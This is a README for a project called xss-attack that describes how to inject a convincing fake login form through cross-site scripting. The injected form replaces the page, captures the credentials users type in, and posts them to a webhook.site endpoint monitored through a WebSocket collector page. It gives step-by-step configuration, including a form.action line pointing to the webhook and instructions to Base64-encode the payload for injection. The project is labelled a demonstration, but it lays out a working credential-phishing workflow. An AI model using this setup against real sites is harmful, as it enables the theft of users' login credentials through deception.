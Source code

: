 # Overview
This project demonstrates a Cross-Site Scripting (XSS) vulnerability exploit using webhook data collection. The demonstration shows how malicious scripts can collect user credentials through a fake login form injection.

# Scripts Structure
xss-attack/
├── xss-webhooks-form.js  
├── webhook-data-collector.html   
└── readme.md        


# Steps
## 1. Setting Up the Webhook
```bash
    Visit https://webhook.site in your browser
    Your unique webhook URL will be generated automatically
    Keep this browser tab open to monitor incoming data
    Copy your webhook URL - you'll need it in the next step
```

## 2. Configuring the Attack Script
```bash
    Open webhook-form.js in your text editor
    Replace 'YOUR_WEBHOOK_URL' with your webhook.site URL:
    javascriptCopyform.action = 'https://webhook.site/your-unique-id';

    Save the changes
```

## 3. Setting Up the Data Collector
```bash
    Open data-collector.html in your text editor
    Find the WebSocket URL in your webhook.site dashboard
    Replace 'YOUR_WEBHOOK_WEBSOCKET_URL' with your WebSocket URL:
    javascriptCopyconst ws = new WebSocket('your-websocket-url');

    Save the changes
```

## 4. Executing the Demonstration
```bash
    Open your browser's developer console (F12 or Ctrl+Shift+I)
    Copy the entire content of webhook-form.js
    Paste it into the console and press Enter
    The script will output a Base64 encoded version
    Copy the Base64 encoded string
```

## 5. Monitoring Results
```bash
    Keep webhook.site open in a separate tab
    Watch for incoming POST requests
    Each request will contain form submission data
    Data appears in both webhook.site and your collector page

    Understanding the Components
    Webhook Form Script (webhook-form.js)
    This script creates a convincing fake login form that:

    Appears legitimate to users
    Captures entered credentials
    Posts data to your webhook endpoint
    Replaces the entire page content

    Data Collector (data-collector.html)
```
